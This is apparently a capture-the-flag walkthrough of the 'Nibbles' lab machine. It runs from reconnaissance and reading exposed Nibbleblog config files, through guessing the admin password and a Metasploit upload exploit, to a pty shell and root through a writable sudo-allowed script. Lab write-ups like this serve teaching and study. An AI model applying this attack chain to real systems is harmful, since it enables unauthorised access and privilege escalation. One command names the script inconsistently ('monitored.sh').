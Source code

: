 <b>

# Information Gathering
First i ping the target 4 times to ensure good connection:<br>
`ping -c 4 10.10.10.75`
```
PING 10.10.10.75 (10.10.10.75) 56(84) bytes of data.
64 bytes from 10.10.10.75: icmp_seq=1 ttl=63 time=109 ms
64 bytes from 10.10.10.75: icmp_seq=2 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=3 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=4 ttl=63 time=108 ms
```
After that i run nmap with `-Pn` to not check if the host is alive and `-sVC` for version and script enumeration:<br>
`nmap -sVC -Pn 10.10.10.75`
```
Nmap scan report for 10.10.10.75
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Then i ran `whatweb` to gather additional information about the website:<br>
`whatweb -a 3 10.10.10.75`
```
http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```
After checking the source code for the page i found this:<br>
![image](https://github.com/user-attachments/assets/cea217ff-0f73-4330-9765-f02383d391aa)

Browsing to the directory revealed blog page<br>
I ran feroxbuster which showed that the directories were readable:
![image](https://github.com/user-attachments/assets/b6297995-cf2b-42fd-96a0-f940124852d8)

The important one was this:<br>
`http://10.10.10.75/nibbleblog/content/private/`

Two of them revealed login information:
```
http://10.10.10.75/nibbleblog/content/private/users.xml
http://10.10.10.75/nibbleblog/content/private/config.xml
```
And one revealed the version of `Nibbleblog` was 4.0.3:<br>
`http://10.10.10.75/nibbleblog/README`
# Vulnerability Assessment
Looking up "`Nibbleblog 4.0.3 explot`" gave me this:<br>
https://www.exploit-db.com/exploits/38489

The exploit allows RCE due to upload vulnerability that allows to upload a reverse shell<br>
It is mentioned that there is `metasploit` module and for the exploit to work, we need to be authenticated<br>
Unfortunetly we only have username `admin`, after trying a couple common combinations:<br>
- `admin:admin`
- `admin:root`
- `admin:test`

I saw this in `http://10.10.10.75/nibbleblog/content/private/config.xml`:<br>
![image](https://github.com/user-attachments/assets/6257d40c-d085-4340-bf8d-e178299a1f8b)
<hr>

And after trying `admin:nibbles` at the login form (`http://10.10.10.75/nibbleblog/admin.php`)<br>
We got redirected to the dashboard
# Exploitation
Now that we have the credentials, we can fire `msfconsole` and use the module to get a reverse shell:<br>
![image](https://github.com/user-attachments/assets/6c3f9f09-0807-4cd0-854f-fcc12197fa27)
<hr>

Select it:
![image](https://github.com/user-attachments/assets/4873443b-6381-47af-bf15-b14a9e9fd95e)
<hr>

And finally set the options & run it:<br>
![image](https://github.com/user-attachments/assets/33fb797a-cc19-4864-be9c-ca613cdd60d8)
<hr>

Once the terminal shows `meterpreter >` we can type `shell` to get a reverse shell<br>
# Post-Exploitation
After that we can run `python3 -c 'import pty; pty.spawn("/bin/sh")'` in order to get interactive shell
We run as the user "`nibbler`" and going to the `/home` directory and inside nibbler, we can get the `user.txt` flag
<hr>

After running `sudo -l` we get this output:
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is also a zip file called `personal.zip`<br>
Running `unzip personal.zip` and then navigating through the directories, we find `monitor.sh`<br>
If we do `ls -la` we notice that we have the permission to not only read but also write<br>

In that case, we can just do:
- `rm monitor.sh`
And create new one with `bash -i` inside like so:
- `echo "bash -i" > monitor.sh`

Then by allowing execution and running it, we can become root:
- `chmod +x monitored.sh`
- `sudo ./monitor.sh`

The root flag is found at `/root/root.txt`
</b>
